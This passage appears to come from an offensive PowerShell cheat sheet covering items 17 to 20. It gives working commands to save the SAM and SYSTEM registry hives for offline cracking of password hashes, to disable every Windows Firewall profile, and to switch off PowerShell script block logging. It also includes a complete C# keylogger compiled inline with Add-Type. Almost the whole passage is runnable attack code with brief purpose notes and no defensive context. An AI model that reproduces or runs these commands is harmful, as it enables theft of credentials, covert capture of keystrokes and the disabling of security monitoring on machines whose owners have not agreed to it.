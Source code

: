 
### **17. Dump SAM Database**
#### **Extract Local Hashes**
```powershell
reg save HKLM\SAM C:\SAM.save; reg save HKLM\SYSTEM C:\SYSTEM.save
```
- **Purpose**: Dumps the SAM database for offline hash extraction.

---

### **18. Disable Firewall**
#### **Turn Off Firewall**
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```
- **Purpose**: Disables the Windows Firewall.

---

### **19. Keylogger**
#### **Capture Keystrokes**
```powershell
$keylogger = @'
using System;
using System.Runtime.InteropServices;
public class Keylogger {
    [DllImport("user32.dll")]
    public static extern int GetAsyncKeyState(int i);
    public static void Main() {
        while (true) {
            for (int i = 0; i < 255; i++) {
                int state = GetAsyncKeyState(i);
                if (state == 1 || state == -32767) {
                    Console.WriteLine((char)i);
                }
            }
        }
    }
}
'@
Add-Type -TypeDefinition $keylogger -Language CSharp; [Keylogger]::Main()
```
- **Purpose**: Captures keystrokes and logs them.

---

### **20. Disable PowerShell Logging**
#### **Turn Off Script Block Logging**
```powershell
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
```
- **Purpose**: Disables PowerShell script block logging.

---